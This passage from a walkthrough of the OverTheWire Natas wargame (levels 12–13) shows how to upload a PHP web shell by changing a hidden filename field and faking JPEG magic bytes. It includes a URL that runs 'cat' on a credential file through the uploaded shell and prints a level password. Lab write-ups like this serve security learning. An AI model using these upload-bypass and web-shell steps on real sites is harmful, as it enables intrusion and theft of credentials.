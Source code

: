 now we have to edit the form in the main page like this (this is how we manipulate the POST request):


``` html
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="filename" value="1u9jcuqc0h.jpg">
```

to this:

``` html
<input type="hidden" name="filename" value="1u9jcuqc0h.php">
```

Now we will be able to see php instead of jpg.

We can try something like this now to get the flag (/etc/natas_webpass/natasX as in previous levels)

http://natas12.natas.labs.overthewire.org/upload/1u9jcuqc0h.php?e=cat%20/etc/natas_webpass/natas13

![13](./img/13.png)

**trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC**

## Level 12 → Level 13

``` html
<div id="content">
For security reasons, we now only accept image files!<br/><br/>
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="v3p7kxpkav.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

``` php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```

This PHP function reads the first few bytes of a file, sometimes known as “magic headers” to determine the file type. It won’t be fooled by just changing the file extension. 

Only image files? Any way to inject php into this?

We will edit the php file from before, and manipulate the magic bytes to jpg with **hexedit**
